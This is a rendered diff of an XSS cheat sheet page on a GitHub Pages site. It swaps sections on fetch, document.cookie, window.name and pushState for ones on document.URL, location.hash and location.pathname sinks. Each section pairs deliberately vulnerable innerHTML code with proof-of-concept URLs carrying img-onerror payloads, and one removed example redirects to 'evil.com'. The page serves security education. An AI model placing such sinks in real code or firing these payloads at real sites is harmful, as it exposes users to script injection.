

Before and after one commit to RHYru9/rhyru9.github.io, a Markdown page: bug/xss-cheatsheet/readme.md, the part around one of its changes. Shown at 82% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/bug/xss-cheatsheet/readme.md
+++ b/bug/xss-cheatsheet/readme.md
@@ -76,81 +74,79 @@ https://victim.com/search?query=<img src=x onerror=alert(1)>
 ```
+
+The payload manipulates the URL hash to inject an image with an `onerror` event, which triggers JavaScript execution when the image cannot load.
 
 ---
 
-### 5. **`fetch()` and `XMLHttpRequest`**
-Both are used to retrieve data from a server. If the URL is taken from user parameters, this can lead to open redirects or SSRF.
+### 5. **`document.URL`**
 
-**Example Open Redirect:**
-```bash
-https://victim.com/fetch?url=https://evil.com
+#### **JavaScript Code Example:**
+```javascript
+document.body.innerHTML = "Current URL: " + document.URL;
 ```
 
-**Code:**
+#### **Explanation:**
+`document.URL` returns the full URL of the current page. In this case, the URL is injected into the DOM using `innerHTML`, making it vulnerable to XSS if an attacker manipulates the URL.
+
+#### **PoC:**
 ```html
-<script>
-    var params = new URLSearchParams(window.location.search);
-    var targetURL = params.get('url');
-    fetch(targetURL)
-        .then(response => response.text())
-        .then(data => console.log(data));
-</script>
+http://example.com/#"><img src="x" onerror="alert('XSS')">
 ```
-If `fetch` is used with a user-provided URL without validation, it can result in an open redirect.
+
+By injecting an image element in the URL hash, attackers can trigger JavaScript execution through the `onerror` event.
 
 ---
 
-### 6. **`document.cookie`**
-Used to get or set cookies. XSS can occur if a cookie is set with user input without sanitization.
+### 6. **`location.href.indexOf()`**
 
-**Example:**
-```bash
-https://victim.com/?cookie=<script>alert(document.cookie)</script>
+#### **JavaScript Code Example:**
+```javascript
+if (location.href.indexOf("#prettyPhoto") !== -1) {
+    document.body.innerHTML = "PrettyPhoto activated: " + location.hash;
+}
 ```
 
-**Code:**
+#### **Explanation:**
+This code checks if the URL contains the string `#prettyPhoto`. If true, the value of `location.hash` is injected into the DOM using `innerHTML`. An attacker can manipulate the URL hash to inject a malicious script.
+
+#### **PoC:**
 ```html
-<script>
-    var params = new URLSearchParams(window.location.search);
-    var cookieValue = params.get('cookie');
-    document.cookie = "user=" + cookieValue;
-</script>
+http://example.com/#prettyPhoto="><img src="x" onerror="alert('XSS')">
 ```
-If the cookie value is set without sanitization, XSS can occur.
+
+This payload uses the URL hash to inject an image with an `onerror` event that triggers JavaScript execution.
 
 ---
 
-### 7. **`window.name`**
-`window.name` can store data that is accessible across pages. It can be used for XSS if this value is inserted into a page.
+### 7. **`location.hash`**
 
-**Example Payload:**
-```bash
-https://victim.com#"><img src=x onerror=alert(1)>
+#### **JavaScript Code Example:**
+```javascript
+document.body.innerHTML = "Hash: " + location.hash;
 ```
 
-**Code:**
+#### **Explanation:**
+The `location.hash` is the part of the URL after the `#`. This value is injected into the DOM directly using `innerHTML`. Without sanitization, an attacker can manipulate the hash to include a malicious script.
+
+#### **PoC:**
 ```html
-<script>
-    var windowName = window.name;
-    document.write("Window name is: " + windowName);
-</script>
+http://example.com/#"><img src="x" onerror="alert('XSS')">
 ```
+
+By injecting an image with an `onerror` event in the hash, the payload triggers JavaScript execution when the image fails to load.
 
 ---
 
-### 8. **`history.pushState()` and `history.replaceState()`**
-Both are used to manipulate the URL without reloading the page. If data from the URL is inserted into the page without sanitization, XSS can occur.
+### 8. **`location.pathname`**
 
-**Example XSS:**
-```bash
-https://victim.com/?state="><script>alert(1)</script>
+#### **JavaScript Code Example:**
+```javascript
+document.body.innerHTML = "Current path: " + location.pathname;
 ```
 
-**Code:**
+#### **Explanation:**
+`location.pathname` returns the path portion of the URL. This value is injected into the DOM using `innerHTML`. If not sanitized, it allows attackers to inject malicious scripts through the URL path.
+
+#### **PoC:**
 ```html
-<script>
-    var params = new URLSearchParams(window.location.search);
-    var state = params.get('state');
-    history.pushState({}, '', '?state=' + state);
-    document.write("New URL is: " + window.location.href);
-</script>
+http://example.com/"><img src="x" onerror="alert('XSS')">
 ```
````
Also changed, not shown: other parts of bug/xss-cheatsheet/readme.md (+59 -59 lines).
